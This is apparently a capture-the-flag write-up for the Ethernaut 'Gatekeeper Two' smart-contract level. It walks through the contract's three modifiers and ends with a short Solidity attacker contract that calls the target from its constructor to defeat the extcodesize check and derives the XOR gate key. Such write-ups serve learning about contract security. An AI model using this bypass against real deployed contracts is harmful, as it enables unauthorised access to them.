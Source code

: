 ## Gate Keeper Two
This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

##### Things that might help
Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
The ``assembly`` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The ``extcodesize`` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
The ``^`` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

#### Understanding the contract
1. State Variables
```js
address public entrant;
```
- The contract has one state variable ``entrant``
- It is a public variable that is an address type

2. Modifiers
This contract has three modifiers
```js
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```
- The first modifier, ``gateOne()`` requires that ``msg.sender`` is not ``tx.origin``... whichever account is interacting with this contract, can't be the account that initiated the original transaction
- ``_;`` inidicates that the logic of the function the modifier is applied to will execute if the require condition is met


```js
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```
- The second modifier, ``gateTwo()`` utilizes a uint variable ``x``. It uses [assembly](https://docs.soliditylang.org/en/v0.4.24/assembly.html) to set ``x`` equal to the size of the code in the address making the call to the contract.  The modifier requires that the address calling the contract does not have any code.

```js
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```
- The third modifier, ``gateThree()`` has one parameter, a bytes8 type
- This modifier involves the bitwise XOR operattion
- A hash taken of the ``msg.sender`` address and an XOR operation is performed with ``uint64(_gateKey)``. The result of this operation is compared with ``type(uint64).max`` and if they are equivalent, then this require check is satisfied


3. Constructor
This contruct doesn't have a constructor

4. Functions
This contract has one function, ``enter``
```js
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
}
```
- ``enter`` takes one argument, ``gateKey`` that is of types bytes8
- The function has the three previously mentioned modifiers applied to it... the third modifier, ``gateThree`` takes the ``_gatekey`` parameter passed into the function as an argument
- The funcion returns a boolean
- If all the modifier checks are met, ``entrant`` is assigned ``tx.origin``

#### Solving
This challenge has some similarities to the previous one. Like ``Gatekeeper One``, we have to use a separate smart contract to call the challenge contract. This satisfies ``gateOne``. To satisfy ``gateTwo``, we need to make sure that ``extcodesize``.  This is possible to do with a smart contract if all the logic is in the contructor. To satisfy ``gateThree``, we can look at the require statement, ``uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey)``, and use the contract address to derive an opposite taking advantage of the ``XOR(^)`` operator: ``uint64 gateKey = ~uint64(bytes8(keccak256(abi.encodePacked(this))));``.
Having all the logic contained in the contructor:
```js
contract GatekeeperTwoAttacker {
    IGatekeeperTwo gatekeeper;
    constructor (address _contract) {
        gatekeeper = IGatekeeperTwo(_contract);
        uint64 gateKey = ~uint64(bytes8(keccak256(abi.encodePacked(this))));
        gatekeeper.enter(bytes8(gateKey));
    }
}
```
Running ``await contract.entrant()`` in the browser console should return our address completing the challenge.

